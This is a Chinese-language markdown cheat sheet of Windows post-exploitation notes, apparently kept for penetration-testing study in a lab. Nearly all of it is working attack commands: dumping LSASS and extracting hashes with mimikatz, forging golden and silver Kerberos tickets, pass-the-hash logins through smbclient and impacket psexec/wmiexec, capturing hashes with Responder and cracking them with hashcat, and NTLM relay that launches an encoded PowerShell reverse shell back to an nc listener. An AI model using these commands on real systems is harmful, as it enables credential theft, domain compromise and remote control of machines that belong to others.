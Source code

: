 ## mimikatz

```bash
	### 直接转储Lsass
		条件：需要SEDebugPrivilege权限，本地管理员默认有此权限
		任务管理器-Lsass-右键-dump fie 
		kali: pypykatz lsa minidump xxx.DMP
			  或crackmapexec smb 192.168.0.76 -u testadmin -p Password123 --lsa  会存到~/.cme/logs/
			  或crackmapexec smb 192.168.0.76 -u testadmin -p Password123 -M lsassy
			  或 新机器上可启用WDigest，但一般情况不需要
		或win: procdump.exe -accepteula -ma "lsass.exe" out.dmp
			   或tasklist | findstr lsass && procdump.exe -accepteula -ma 580 out.dmp
		

## exe use 
	privilege::debug	###开启SeDebugPrivilege访问权限
	token::elevate 		###提升至system权限
	lsadump::sam		###提取SAM中的NTLM哈希
	lsadump::cache         ###和cme的--lsa一样,cme的可以破解
	lsadump::secrets
	lsadump::lsa /patch ###导出krbtgt的NTLM和域SID 和管理和域用户的has
	sekurlsa::logonpasswords  ###尝试从所有可用的来源中提取明文密码和密码哈 > 大量输出
	sekurlsa::tickets   ###TGT TGS 显示存储在内存中的票据
	
	###私钥导出
	crypto::capi        ###CryptoAPI函数
	crypto::cng         ###KeyIso服务
	
	###silver ticket制作 生成白银票据
	kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
	
	###将NTLM hash转成Kerberos ticket
	sekurlsa::pth
	 
	###导出票据 
	sekurlsa::tickets /export
	
	###导出krbtgt的NTLM和域SID
	lsadump::lsa /patch
	
	###删除所有现存的ticket
	kerberos::purge
	
	### 生成黄金票据 用户名要存在
	kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

详解
```bash
## sam
能hash传递，只能解密

## lsa
不能hash传递，只能解密

- `lsadump::sam`: Fetch the local account credentials.
- `lsadump::cache`: Retrieve the cached domain logons.
- `lsadump::secrets`: Get the LSA secrets.


```


## hashcat     hash密码提取

../ kaliEnv/tools_kali





## hash提密码

### NTLM-pth 需要当前账户有管理员权限

对于SMB枚举和管理，我们可以使用smbclient或CrackMapExec。对于命令执行，我们可以使用impacket库中的脚本，如psexec.py和wmiexec.py。如果用户具有所需权限，我们还可以使用NTLM哈希不仅通过SMB连接到目标系统，还可以通过其他协议（如RDP和WinRM）进行连接。我们还可以使用Mimikatz来进行“传递哈希”。

##### smbclient smb连接和管理

```bash
# 列出目标主机所有共享目录
smbclient -p 445 -L \\\\192.168.1.22\\ -U administrator

# 访问目标主机指定的共享目录
smbclient \\\\192.168.1.22\\test -U administrator

# 带密码的访问目标主机指定共享目录
smbclient \\\\192.168.229.61\\test -U offsec --password=lab 

pth
> smbclient \\\\20.63.142.48\\secrets -U Administrator --pw-nt-hash 891315195d73d087f22c018790e9e708
> get secrets.txt

### 先列出所有共享
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
### 再访问指定共享 ls get 
smbclient -p 4455  //192.168.215.63/Scripts -U hr_admin --password Welcome1234  
```

##### getShell 当前账户有管理员权限时可以拿shell

```
> impacket-psexec -hashes 00000000000000000000000000000000:管理员hash Administrator@20.63.142.48 cmd.exe
或
> impacket-wmiexec -hashes 00000000000000000000000000000000:管理员hash  Administrator@192.168.50.212
```



### Net-NTLMv2  无管理员权限

##### smb Connect 可以破解出密码时

```bash
###查看网卡
kali> ip a 	
###选中网卡
kali> responder -I  eth0
###win上smb连接/ 
win> dir \\10.10.10.9\qwe dir
###破解hash
kali> hashcat -h | grep -i 'ntlm'
kali> hashcat -m 5600 klear.hash /usr/share/wordlists/rockyou.txt --force 

```

##### Relaying Net-NTLMv2  上面一步不可以破解出密码时。前提：开启UAC，不开启的话需要当前用户有管理员权限

```bash
###上一步中提hash后破解密码。  现在直接使用这个hash尝试登陆其他机器
###与其仅仅打印在认证步骤中使用的Net-NTLMv2哈希值，我们将其转发到FILES02

kali > nc -lvnp 1234 
kali >impacket-ntlmrelayx --no-http-server -smb2support -t 其他机器的ip -c "powershell -enc Jasdasd"	##win reverse shell > ./powershell.md
有权限的win	>dir \\10.10.10.9\qwe

```











